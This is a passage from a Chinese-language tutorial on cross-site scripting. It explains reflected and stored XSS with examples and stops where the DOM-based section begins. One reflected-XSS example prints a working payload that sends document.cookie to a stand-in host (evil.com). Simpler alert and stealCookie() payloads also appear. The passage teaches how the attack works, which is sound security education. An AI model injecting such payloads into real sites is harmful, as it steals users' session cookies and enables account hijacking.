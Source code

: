 ##### 实际案例1

假设有一个网站提供了一个搜索功能，用户可以输入关键字进行搜索，搜索结果会显示在页面上。如果这个网站没有对用户输入的关键字进行过滤或转义，那么攻击者就可以构造一个包含恶意代码的URL参数，URL参数为script代码。

例如：`http://www.example.com/search?keyword=<script>document.location='http://www.evil.com/?cookie='+document.cookie</script>`

当用户点击这个URL时，服务器端会将关键字参数原样拼接到响应内容(嵌入到了HTML源码)中，例如：

```html
<div>您搜索的关键字是：<script>document.location='http://www.evil.com/?cookie='+document.cookie</script></div>
```

这样，当浏览器接收到响应内容时，就会执行`<script>document.location='http://www.evil.com/?cookie='+document.cookie</script>`这段恶意代码，它会做两件事情：

1. 通过document.cookie获取用户的Cookie信息，并拼接到一个恶意网站的URL参数中。
2. 通过document.location将用户重定向到这个恶意网站。

这样，攻击者就可以在恶意网站上获取用户的Cookie信息，并利用它进行一些恶意操作，比如冒充用户身份、窃取用户数据等。同时，用户也被诱导到了一个可能含有更多恶意代码或内容的网站上，可能遭受更大的损失。

##### 实际案例2

例如，一个搜索页面的URL可能是这样的：`http://example.com/search?keyword=hello`，如果攻击者将`keyword`参数替换为`<script>alert('xss')</script>`，并将修改后的URL发送给用户，那么当用户点击该链接时，就会弹出一个对话框显示`xss`。

#### 存储型XSS攻击

##### 概念

这种攻击是通过将恶意代码提交到目标网站的数据库中，使得每次用户访问该网站时，都会加载并执行该代码。

这种攻击的特点是不需要用户的主动参与，且攻击代码会持久地保存在服务器上，影响范围更广。

##### 攻击流程

1. 攻击者将恶意代码提交到目标网站的数据库中，例如在评论中插入Javascript代码。

2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在 HTML 中返回给浏览器。

3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。

4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

**常见场景**

用户评论、私信相关

##### 案例1

例如，一个论坛网站允许用户发表评论，并将评论内容存储在数据库中。如果攻击者在评论中插入了`<script>stealCookie()</script>`，并成功提交了评论，那么当其他用户浏览该评论时，就会执行该脚本，从而导致攻击者窃取他们的Cookie信息。

#### DOM型XSS攻击

##### 概念
